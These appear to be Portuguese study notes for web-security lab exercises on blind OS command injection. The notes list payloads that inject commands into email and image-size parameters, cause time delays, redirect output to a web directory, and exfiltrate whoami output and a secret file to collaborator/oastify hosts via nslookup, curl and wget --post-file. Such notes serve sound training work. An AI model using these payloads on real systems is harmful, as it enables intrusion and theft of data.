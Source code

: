 # OS Command Injection

Normalmente o Command Injection aparece nos parâmetros que envolvem e-mail, como na feature the submeter feedback.

Aprenda alguns comandos além do que é ensinado nos laboratórios para exfiltrar dado, visto que nem sempre o comando que você testa primeiro existe ou funciona no alvo.

Algumas variações:
```
nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN

curl+burp.oastify.com?c=`whoami`

nslookup+-q=cname+$(whoami).burp.oastify.com

$(curl $(cat /home/carlos/secret).OASTIFY.COM)

/usr/bin/wget --post-file /home/carlos/secret https://collaborator/
```

<br>

## Laboratórios

**Blind OS Command Injection with Time Delays**
```
email=x||ping+-c+10+127.0.0.1||
```

<br>
<br>

**Blind OS Command Injection with Output Redirection**

Tem um diretório passível de escrita em `/var/qwww/images/`.
```
||+whoami+>+/var/www/images/whoami.txt||
```

Acesse o arquivo em: `/image?filename=whoami.txt`.

<br>
<br>

**Blind OS Command Injection with Out-of-Band Interaction**
```
email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||
```

<br>
<br>

**Blind OS Command Injection with Out-of-Band Data Exfiltration**
```
email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||
```

<br>
<br>

**Admin Panel ImgSize Command Injection**
```
/admin-panel/admin_image?image=/blog/posts/50.jpg&ImageSize="200||nslookup+$(cat+/home/carlos/secret).<collaborator>%26"  
```

Outra opção:
```
ImgSize="`/usr/bin/wget%20--post-file%20/home/carlos/secret%20https://collaborator/`"
```
